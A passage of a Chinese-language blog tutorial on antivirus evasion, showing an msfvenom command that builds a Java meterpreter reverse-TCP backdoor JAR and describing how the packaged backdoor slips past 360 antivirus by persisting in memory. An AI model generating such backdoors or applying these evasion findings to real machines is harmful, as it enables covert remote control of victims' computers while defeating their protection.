   

  

三、

 ** _免杀测试_**

  

生成默认的msf jar后门

msfvenom -p java/meterpreter/reverse_tcp LHOST=172.16.81.1 LPORT=4444 x
>~/Desktop/TestJar.jar

  

    
    
    监听：  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903100258.png)不打包，直接运行TestJar.jar会立马报毒：  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100300.png)按照上面的方法对TestJar.jar进行打包，在没有杀软和java环境的机器上安装并运行，可以成功上线：  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100301.png)在安装了360的机器上测试：

  

安装包查杀，未发现风险：  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100302.png)安装后的文件夹，未发现风险：  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100304.png)运行安装后的程序：

  

运行后不会马上出发告警  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100305.png)尝试执行命令后出发告警了：  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100307.png)![](https://gitee.com/fuli009/images/raw/master/public/20210903100308.png)可以看到，提示的是已经成功删除病毒文件(注意，这里删除的文件是.class文件)，但我们回到我们的meterpreter，发现并没有掉线，且能够正常执行所有命令，后续不会再有告警：  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100310.png)经过主动检测，除了普通的系统优化建议外，无法查杀出后门：  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100312.png)![](https://gitee.com/fuli009/images/raw/master/public/20210903100313.png)通过上面测试，说明即使恶意文件被删除了，但是我们的会话还是在线，且不会再触发告警或被主动检测出风险，说明我们的后门的恶意类已经被加载进了内存。

  

从进程上看，只能看到有个java程序在运行：  

![](https://gitee.com/fuli009/images/raw/master/public/20210903100315.png)

如果杀软开启针对内存检测的功能则免杀效果会失效，例如开启360的网购模式：

  

提示进程java.exe存在问题了  
![](https://gitee.com/fuli009/images/raw/master/public/20210903100316.png)

  
  

 ** _后记_**

  

## 优点
